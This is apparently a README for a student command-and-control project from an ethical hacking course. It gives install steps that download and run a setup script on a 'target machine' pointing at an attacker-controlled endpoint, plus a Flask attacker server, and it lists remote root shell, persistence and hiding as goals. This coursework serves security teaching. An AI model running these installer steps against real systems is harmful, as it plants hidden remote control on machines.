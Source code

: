 # Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install

### Target Machine

```bash
curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
cd Command-Control-main
chmod +x setup.sh
./setup.sh {Your Server Endpoint} # Example: ./setup.sh http://10.0.2.4:5000/commands
```

### Attack Machine

-   Install `flask`
-   Run the flask server

```python
export FLASK_APP=attacker-server.py
flask run --host={Server IP}
```

## How it works

## How it meets the requirements

1. Provide remote root shell access
2. Persistence
3. Configuration
4. Authentication
5. Hiding

## Detection
